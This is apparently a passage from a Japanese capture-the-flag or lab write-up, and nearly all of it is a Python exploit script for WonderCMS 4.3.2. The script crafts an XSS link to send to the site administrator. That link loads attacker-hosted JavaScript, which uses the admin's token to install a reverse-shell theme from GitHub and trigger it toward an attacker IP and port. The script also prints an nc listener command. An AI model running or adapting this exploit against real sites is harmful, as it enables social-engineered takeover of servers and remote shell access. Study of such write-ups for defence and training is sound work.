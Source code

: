 ## Exploit
exploit.pyコードを見ると、修正すべき箇所が見つかる。
```{r, attr.source='.numberLines'}
# Author: prodigiousMind
# Exploit: Wondercms 4.3.2 XSS to RCE


import sys
import requests
import os
import bs4

if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
else:
  data = '''
var url = "'''+str(sys.argv[1])+'''";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "'''+str(sys.argv[2])+'''";
       var port = "'''+str(sys.argv[3])+'''";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();
       
     }
   };
 }
};
'''
  try:
    open("xss.js","w").write(data)
    print("[+] xss.js is created")
    print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
    print("----------------------------\n")
    XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
    XSSlink = XSSlink.strip(" ")
    print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
    print("----------------------------\n")

    print("\nstarting HTTP server to allow the access to xss.js")
```